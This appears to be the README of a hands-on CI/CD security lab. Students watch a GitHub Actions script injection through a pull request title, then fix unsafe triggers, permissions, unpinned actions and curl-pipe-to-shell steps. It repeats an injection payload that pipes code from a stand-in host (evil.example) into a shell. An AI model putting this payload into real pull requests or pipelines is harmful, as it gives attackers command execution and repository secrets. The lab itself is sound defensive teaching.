




<p align="center"></p>

| | |
|-|-|
| **Time** | 90-105 min |
| **Cost** | free |
| **You need** | git, Python 3 with PyYAML (`python3 -m pip install pyyaml`), and a terminal. `actionlint` is optional and used if installed. |

## How this lab works

1. **Fork** this repository to your own GitHub account (button at the top right).
2. Clone **your fork** in your Ubuntu environment (WSL on Windows, your OrbStack machine on Mac).
3. Read the lab below (the same text is in [`LAB.md`](LAB.md)) and follow the mission.
4. Answer the questions in [`SUBMISSION.md`](SUBMISSION.md). Where a question asks for output, paste it in a code block. No screenshots needed.
5. Commit and push. Open the **Actions** tab of your fork (click *I understand my workflows, go ahead and enable them* the first time). The **Lab check** shows what is still missing.
6. When the check is green, **submit the URL of your fork** in the course platform.

> [!NOTE]
> The check only looks at your answers and any files the lab asks you to commit. Your instructor reads your work and may ask you to explain any line.

<p align="center"></p>

## 🎬 The situation

<p align="center"></p>

```text
RED TEAM REPORT RT-2204 - Pollie CI/CD pipeline
Result     : initial access achieved, no code review needed
Method     : one pull request, one title
Payload    : x"; curl evil.example | sh; echo "
Impact     : arbitrary commands on the runner, with access to the repository secrets
Evidence   : a polite report and a screenshot of the secrets they could have read
Severity   : critical          Time to exploit: 4 minutes
```

A CI/CD pipeline is the most privileged thing a software team owns. It can read the source, it holds the registry token and the deploy key, it can publish a release that thousands of machines will install. And it runs **code that other people wrote**: every pull request, every dependency, every third-party action. If you can make a pipeline run your commands, you do not need to hack the server.

The report is yours to answer. You have three workflows from the Pollie repository (`ci.yml`, `preview.yml`, `release.yml`), each with real, common holes. In **Act 1** you play the attacker and watch an injection happen on your own machine. In **Act 2** you defend: you close every hole **without breaking the pipeline**, because a pipeline that is secure and does not work is not a fix.

> [!IMPORTANT]
> **Your mission**
> - Run `attack/simulate.py` and see what a hostile pull request title turns into
> - Fix the script injection, the dangerous trigger, the over-broad permissions, the unpinned actions and the `curl | bash`
> - Write down what was wrong in each workflow, in your own words
> - Pass the checker and keep the tests green

**Time:** 90-105 min | **Cost:** free | **You need:** git, Python 3 with PyYAML (`python3 -m pip install pyyaml`) and a terminal. `actionlint` is optional (it finds typos in expressions): `brew install actionlint` or download it from its release page.

<p align="center"></p>

## Part 0 - Act 1: read the three workflows (the attacker's map)

Fork this repository and clone your fork. Read `.github/workflows/ci.yml`, `preview.yml` and `release.yml`, and try to spot problems before reading further. The workflows are not run by the lab (nothing is deployed); the checker reads the YAML.

> [!NOTE]
> **Think** For each of the three, answer: what does it have access to (secrets, a write token)? Who can make it run (anyone with a pull request? only maintainers pushing a tag?) The dangerous combination is *powerful* and *triggered by strangers*.

<p align="center"></p>

## Part 1 - Watch an injection

<p align="center"></p>

```bash
python3 attack/simulate.py .github/workflows/ci.yml 'x"; curl evil.example | sh; echo "'
```

The script does what the runner does: it replaces every `${{ ... }}` expression with its value **before** the shell sees the text. Look at the output. The title closed the quote of the `echo`, then a new command appeared on its own line. Nothing in the YAML looked wrong.

The fix is not "sanitise the title". It is to never let the value become *code*. Environment variables are data: the shell reads `"$PR_TITLE"` as one word, whatever it contains.

```yaml
- name: Greet the author
  env:
    PR_TITLE: ${{ github.event.pull_request.title }}
  run: echo "Thanks for the pull request: $PR_TITLE"
```

Run the simulator on your fixed file and see that no `run:` step contains attacker text any more.

> [!NOTE]
> **Predict** The branch name (`github.head_ref`) is also chosen by the author of the pull request. Is `fix-bug` the worst a branch can be called? What about `a";id;"`? (Git allows many characters in branch names.)

<p align="center"></p>

## Part 2 - The trigger that hands over your secrets

`preview.yml` uses `pull_request_target`. The ordinary `pull_request` trigger gives a pull request from a fork a **read-only token and no secrets**, because it runs the *fork's* code. `pull_request_target` runs the workflow from the **base** branch with the **base repository's secrets and a write token**. It exists for jobs that only *label or comment* and never run the author's code.

`preview.yml` does the opposite: it checks out the head of the pull request and runs it, with a secret in the environment. Anyone can open a pull request that edits `tests/helper.py`, and your secret is theirs.

Fix it: switch to `pull_request`, remove the secret, keep the workflow useful (it still builds and runs the tests). If it needs to comment on pull requests from forks, that is done by a *second*, trusted workflow (`workflow_run`) that never executes the pull request's code. Describe that idea in your notes; you do not need to build it.

<p align="center"></p>

## Part 3 - Act 2: least privilege (the defence starts here)

Every job gets a `GITHUB_TOKEN`. Its default permissions depend on a repository setting and are often read **and write**. State what you need:

```yaml
permissions:
  contents: read
```

at the top of each workflow, and give extra permission only to the **job** that needs it. `release.yml` publishes a release and needs `contents: write`, in that job only. `preview.yml` may add `pull-requests: write`. `permissions: write-all` is a loaded gun on the table.

Also add `timeout-minutes` to every job (a hijacked job should not run for six hours) and a `concurrency` group to the release workflow (two releases must not run at once).

<p align="center"></p>

## Part 4 - Supply chain

- **Pin every action to a commit SHA**, with the version in a comment: `uses: actions/checkout@11bd71901bbe5b1630ceea73d27597364c9af683 # v4.2.2`. A tag like `@v4` or a branch like `@main` can be moved by the owner of the action (or by anyone who steals their account), and your pipeline runs the new code on the next push. Find the SHA of a tag with `gh api repos/OWNER/REPO/git/ref/tags/TAG` (for an annotated tag, follow its `object.url`). The SHAs for the actions in this lab: `actions/checkout` v4.2.2 is `11bd71901bbe5b1630ceea73d27597364c9af683`, `actions/setup-python` v5.3.0 is `0b93645e9fea7318ecaed2b359559ac225c90a2b`, `softprops/action-gh-release` v2.2.1 is `c95fe1489396fe8a9eb87c0abf8aa5b2ef267fda`.
- **No `curl | bash`.** Download a specific version, verify its checksum, then run it. Or install it from a package manager that checks signatures.
- **No secret in a `run:` script.** `${{ secrets.X }}` is pasted into the text before the shell runs. Pass it as `env:` on the one step that needs it.
- **Remove what you cannot trust.** `some-random-org/notify-action@main` receives your Slack webhook. Who is that organisation?

> [!NOTE]
> **Think** Dependabot can open pull requests that bump pinned SHAs when a new version of an action is released (`package-ecosystem: github-actions`). Why is that a better workflow than `@v4`?

<p align="center"></p>

## Part 5 - Notes and proof

<p align="center"></p>

Fill in `SECURITY-NOTES.md` (what was wrong and what you changed, for each workflow), then:

```bash
./verify.sh
```

It reads your workflows and checks every hole, runs the tests, and runs `actionlint` if you have it. Fix what is red and run it again until it ends with **ALL CHECKS PASSED**.

> [!TIP]
> **Stuck?** The injection check still fails: look for `github.event...` or `github.head_ref` inside any `run:`, including multi-line scripts. `permissions:` fails on one file: it must be a mapping, not the word `write-all`. A SHA check fails: the SHA must be exactly 40 hex characters, no `v`, no short form. The tests fail: you changed something under `app/` or `tests/`; undo it.

<p align="center"></p>

## Level up (optional)

- Add `.github/dependabot.yml` for `github-actions` and see the pull requests it would open.
- Run `zizmor` (a static analyser for GitHub Actions) or `actionlint` on the original workflows and compare what each finds.
- Add `step-security/harden-runner` in audit mode and read what outbound connections a normal build makes. How would you turn that into a block list?
- Set the repository default token to read-only (Settings > Actions > General > Workflow permissions). Which of your workflows would have broken, and which should have stated their permissions anyway?

<!-- teardown:start (generated by labs.py, do not edit) -->
## Tear down (mandatory)

<p align="center"></p>

Resources left behind cost money, keep doors open and pollute the next lab. Removing what you created is part of the job, so it is part of the submission: **you must prove it is gone**.

Do this **last**, after you have pasted your `verify` output into `SUBMISSION.md` (once you tear down, the lab can no longer be verified).

1. Nothing runs outside your repository, so there is nothing to tear down. Run `./teardown.sh` for the proof line.

Then run the proof:

```bash
./verify-teardown.sh
```

It prints a list of checks and must end with **TEARDOWN VERIFIED**. If it reports leftovers, remove them and run it again. Paste the full output in your submission.
<!-- teardown:end -->

<!-- submission:start (generated by labs.py, do not edit) -->
## 📬 Submission

Answer the questions in `SUBMISSION.md` in **your fork** (paste output in code blocks where asked), push, then submit the **URL of your fork**.

**Files to commit**

- `.github/workflows/ci.yml`, `preview.yml` and `release.yml`: fixed
- `SECURITY-NOTES.md`: what was wrong in each workflow

**Questions to answer**

1. Run `python3 attack/simulate.py` on the original `ci.yml` and paste what the runner would execute for a pull request titled `x"; curl evil.example | sh; echo "`. Why does the expression `${{ ... }}` become part of the shell script instead of data?
2. Show the fix for the injection (an environment variable). Why does `env: TITLE: ${{ github.event.pull_request.title }}` followed by `"$TITLE"` make the same title harmless?
3. `pull_request_target` runs with the base repository's secrets and write token. Why is checking out the pull request's code in that workflow equivalent to giving the author your secrets? What did you change, and what can the pull-request workflow no longer do?
4. Why must a third-party action be pinned to a commit SHA and not to `@v2` or `@main`? What can the owner of that action's repository do to every pipeline that uses the moving tag? How do you keep SHAs up to date (Dependabot)?
5. What does `permissions:` do, what is the default token permission of a repository, and what is the minimum each of your three workflows needs? Which job needed `contents: write` and why only that job?
6. Why is `curl ... | bash` in a pipeline worse than on your laptop? What did you use instead (a pinned version, a checksum, a package)?
7. Paste the output of `./verify.sh`. It must end with **ALL CHECKS PASSED**.
8. **Tear down.** Paste the output of `./verify-teardown.sh`. It must end with **TEARDOWN VERIFIED**.
<!-- submission:end -->
